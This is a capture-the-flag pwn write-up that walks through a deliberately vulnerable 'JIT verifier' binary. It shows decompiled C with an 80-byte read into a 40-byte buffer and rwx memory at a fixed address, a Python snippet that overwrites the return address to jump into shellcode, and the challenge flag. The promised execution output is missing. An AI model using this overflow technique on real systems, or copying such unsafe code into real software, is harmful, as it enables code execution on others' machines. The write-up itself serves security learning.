

# mmm

## Description

Tags: _pwn_

## Recon

I was given a binary that implements a "JIT verifier" - a program that accepts shellcode and claims to verify it
Looking at the decompiled source code:

```c
#define JIT_AREA (void*)0x42420000

int main()
{
    char size[050];  // 40 bytes (octal 050 = decimal 40)
    
    printf("How long is your shellcode?\n");
    read(0, size, 0x50);  // Reads 80 bytes into 40-byte buffer
    
    char *mem = mmap(JIT_AREA, atol(size), 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    // Allocates memory at 0x42420000 with protections=7 (rwx)
    
    printf("Give us your shellcode\n");
    read(0, mem, atol(size));
    
    printf("Looks good to me!\n");
    // TODO: Implement shellcode verifier
    
    return 0;  // Returns, but return address has been overwritten
}
```

### The Vulnerabilities

1. Buffer Overflow: The `size` buffer is only 40 bytes (octal 050), but the program reads 80 bytes (0x50) into it
2. Missing Verification: As the comment suggests: "TODO: Implement shellcode verifier", the shellcode is never actually verified
3. Executable Memory: The `mmap` call uses protection flag `7`, which is `rwx`
4. Predictable Address: The JIT_AREA is hardcoded at `0x42420000`

## Exploitation

### Overwriting the Return Address

The buffer overflow on the `size` buffer overwrites the return address on the stack:
```python
size_str = b"256"                    # The actual size value
padding = b"A" * (56 - len(size_str))  # Fill the 40-byte buffer
ret_addr = p64(JIT_AREA)             # Overwrite return address with 0x42420000
size = size_str + padding + ret_addr
```

Stack overflow breakdown:
- `"256"` (3 bytes) - valid size input
- Padding (53 bytes) - fills the 40-byte `size` buffer and continues
- `p64(0x42420000)` (8 bytes) - overwrites the return address

After executing I got the following result:


## Flag

`CLA{my_f1rst_sh3llc0ding_jOxIBfjcAA0x}`
